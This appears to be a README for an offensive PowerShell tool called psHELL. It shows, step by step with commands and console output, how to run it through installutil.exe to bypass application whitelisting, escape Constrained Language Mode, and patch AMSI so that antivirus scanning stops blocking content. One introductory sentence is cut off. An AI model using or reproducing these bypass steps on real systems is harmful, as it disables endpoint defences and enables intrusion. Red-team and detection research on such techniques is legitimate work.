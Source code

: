 ## psHELL ##

Sometimes its better to drop down from a constrained language prompt into a full language prompt to poke around and understand the lay of the land better. This tool


1. Confirm that you are in a constrained language mode

```
PS > $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
2. Execute the application whitelisting bypass

```
PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U .\psHell.exe
```

3. If all goes well you will be dropped inside an interactive prompt

```
psHell >$ExecutionContext.SessionState.LanguageMode
FullLanguage
```
4. execute some ps cmdlets

```
psHell >echo $psversiontable

Name                           Value                                                                                    
----                           -----                                                                                    
PSVersion                      5.1.19041.2673                                                                           
PSEdition                      Desktop                                                                                  
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}                                                                  
BuildVersion                   10.0.19041.2673                                                                          
CLRVersion                     4.0.30319.42000                                                                          
WSManStackVersion              3.0                                                                                      
PSRemotingProtocolVersion      2.3                                                                                      
SerializationVersion           1.1.0.1  

```

5. Verify AMSI patching, before execution.

```

PS > amsiscanbuffer
At line:1 char:1
+ amsiscanbuffer
+ ~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

6. Invoking the tool with Appwhitelist bypass and automatic patching, indicating no cmdlet or function for amsiscanbuffer test.

```
PS> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U .\psHell.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.9037.0
Copyright (C) Microsoft Corporation.  All rights reserved.

Reached here!
psHell >amsiscanbuffer
The term 'amsiscanbuffer' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
psHell >

```
